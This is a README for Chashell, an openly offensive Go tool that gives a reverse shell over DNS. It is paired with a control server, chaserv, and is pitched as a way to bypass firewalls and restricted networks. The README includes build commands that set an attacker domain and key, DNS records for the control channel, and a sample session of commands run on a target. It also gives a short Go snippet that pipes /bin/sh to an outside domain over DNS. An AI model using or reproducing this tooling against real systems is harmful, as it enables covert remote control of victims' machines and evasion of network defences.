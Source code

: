 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicates over DNS. 
It can be used to bypass firewalls or tightly restricted networks.

It comes with a multi-client control server, named *chaserv*.

![Chaserv](img/chaserv.gif)

### Communication security

Every packet is encrypted using symmetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)), with a shared key between the client
and the server.

We plan to implement asymmetric cryptography in the future.

### Protocol

Chashell communicates using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. The `.proto` file is available in the `proto` folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packet is encrypted, hex-encoded and then packed for DNS transportation.

### Supported systems

Chashell should work with any desktop system (Windows, Linux, Darwin, BSD variants) that is supported by the Go compiler.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)
* OS X (386/amd64)

### How to use Chaserv/Chashell

#### Building

Make sure the [GOPATH](https://github.com/golang/go/wiki/GOPATH) environment variable is correctly configured before running those commands.

Build all the binaries (adjust the domain_name and the encryption_key to your needs):


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Build for a specific platform:

```
$ make build-all OSARCH="linux/arm"
```

Build only the server:

```
$ make build-server
```

Build only the client (*chashell* itself):

```
$ make build-client
```

#### DNS Settings

* Buy and configure a domain name of your choice (preferably short).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

#### Usage

Basically, on the server side (attacker's computer), you must use the `chaserv` binary. For the client side (i.e the target), use the `chashell` binary.

So:

* Run `chaserv` on the control server.
* Run `chashell` on the target computer.

The client should now connect back to `chaserv`:

```
[n.chatelain]$ sudo ./chaserv
chashell >>> New session : 5c54404419e59881dfa3a757
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

Use the *sessions [sessionid]* command to interact with a client.
When interacting with a session, you can use the *background* session in order to return to the *chashell* prompt.

Use the *exit* command to close *chaserv*.

## Implement your own

The *chashell/lib/transport* library is compatible with the *io.Reader* / *io.Writer* interface. So, implementing a reverse shell is as easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## Debugging

For more verbose messages, add *TAGS=debug* at the end of the make command.

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the host name using the `InfoPacket` message.
* Create a *proxy/relay* tool in order to tunnel TCP/UDP streams. (Meterpreter over DNS !)

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>